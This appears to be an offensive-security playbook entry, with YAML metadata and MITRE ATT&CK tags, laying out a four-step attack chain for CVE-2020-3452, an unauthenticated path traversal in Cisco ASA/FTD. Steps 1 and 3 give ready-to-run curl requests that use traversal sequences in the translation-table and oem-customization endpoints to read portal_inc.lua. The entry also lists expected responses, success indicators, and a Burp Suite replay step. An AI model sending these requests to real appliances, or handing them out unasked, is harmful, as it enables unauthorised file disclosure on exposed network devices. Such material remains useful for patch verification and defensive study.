

---
tags:
  - path-traversal
  - cve-2020-3452
  - cisco-asa
  - file-disclosure
  - unauthenticated
type: attack_chain
tools:
  - '[[tools/curl]]'
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
  - Cisco ASA
  - Cisco FTD
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Translation-Table-Path-Traversal]]'
  - '[[procedures/Verify-Direct-File-Access-Protection]]'
  - '[[procedures/Exploit-OEM-Customization-Path-Traversal]]'
  - '[[procedures/Demonstrate-Exploitation-with-Burp-Suite]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:26:05.634Z'
description: >-
  Multi-stage attack exploiting CVE-2020-3452 in Cisco ASA/FTD software to
  bypass access controls and disclose sensitive files like portal_inc.lua
  without authentication.
id: 3b6c184f-2070-4cae-ac6f-cb4788624c10
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
---
# Unauthenticated Path Traversal in Cisco ASA/FTD to Disclose Sensitive Files via Translation-Table and OEM-Customization

Multi-stage attack chain demonstrating exploitation of CVE-2020-3452, a read-only path traversal vulnerability in Cisco ASA/FTD software. An unauthenticated remote attacker crafts GET requests to specific endpoints like /+CSCOT+/translation-table and /+CSCOT+/oem-customization, using traversal sequences such as '../' in parameters (e.g., lang, platform, resource-type) to bypass access controls and read sensitive files within the webroot, such as portal_inc.lua containing source code.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/Burp-Suite]]

### Target Environment

- Cisco ASA or FTD software vulnerable to CVE-2020-3452
- HTTPS service on port 443
- Network access to the web interface

### Initial Access Requirements

- No credentials required (unauthenticated)
- Direct network connectivity to the target HTTPS endpoint
- No prior access needed

## Detailed Attack Procedures

### Step 1: Exploit Translation-Table Endpoint
procedure: [[procedures/Exploit-Translation-Table-Path-Traversal]]

**Objective**: Use path traversal in the translation-table endpoint to retrieve sensitive file content like portal_inc.lua.

**Instructions**: Send a crafted GET request using [[commands/curl-translation-table-traversal]] to the endpoint with traversal parameters:

```bash
curl -i -s -k -X $'GET' -H $'Host: target.example.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' $'https://target.example.com/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../'
```

**Expected Output**: HTTP/1.1 200 OK with Content-Type: application/octet-stream and body containing Lua source code, e.g., dofile('/+CSCOE+/include/common.lua').

**Success Indicators**:
- File download prompted or content returned in response body
- Sensitive code like Lua dofile statements visible

### Step 2: Verify Direct File Access Protection
procedure: [[procedures/Verify-Direct-File-Access-Protection]]

**Objective**: Confirm that sensitive files are protected against direct access, highlighting the traversal bypass.

**Instructions**: Attempt direct access to the file using [[commands/curl-direct-file-access]]:

```bash
curl -i -s -k -X $'GET' -H $'Host: target.example.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' $'https://target.example.com/%2bCSCOE%2b/portal_inc.lua'
```

**Expected Output**: HTTP/1.1 500 Internal Server Error or 'Wrong URL' page indicating access denied.

**Success Indicators**:
- Direct access fails with error
- Confirms need for traversal exploit

### Step 3: Exploit OEM-Customization Endpoint
procedure: [[procedures/Exploit-OEM-Customization-Path-Traversal]]

**Objective**: Use an alternative endpoint for path traversal to disclose the same sensitive file, demonstrating multiple vectors.

**Instructions**: Send a GET request to the oem-customization endpoint using [[commands/curl-oem-customization-traversal]] with traversal in platform and resource-type:

```bash
curl -i -s -k -X $'GET' -H $'Host: target.example.com' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' $'https://target.example.com/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua'
```

**Expected Output**: HTTP/1.1 200 OK with Content-Type: application/octet-stream and body containing the same Lua source code.

**Success Indicators**:
- File content returned successfully
- Multiple exploitation paths confirmed

### Step 4: Demonstrate with Burp Suite
procedure: [[procedures/Demonstrate-Exploitation-with-Burp-Suite]]

**Objective**: Intercept and analyze requests to visualize successful traversal and failed direct access.

**Instructions**: Configure Burp Suite as a proxy, then replay the requests from previous steps, such as the translation-table exploitation, and observe the responses in the proxy history.

**Expected Output**: Captured requests showing 200 OK for traversal exploits and 500 errors for direct access.

**Success Indicators**:
- Successful requests intercepted with file content
- Failed requests confirm protections

## Attack Chain Summary

### Key Achievements

1. Bypassed unauthenticated access controls to read sensitive Lua source code
2. Demonstrated multiple endpoints vulnerable to path traversal
3. Highlighted the read-only nature limiting to disclosure without modification

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---
*Last updated: 2023-10-01T00:00:00Z*
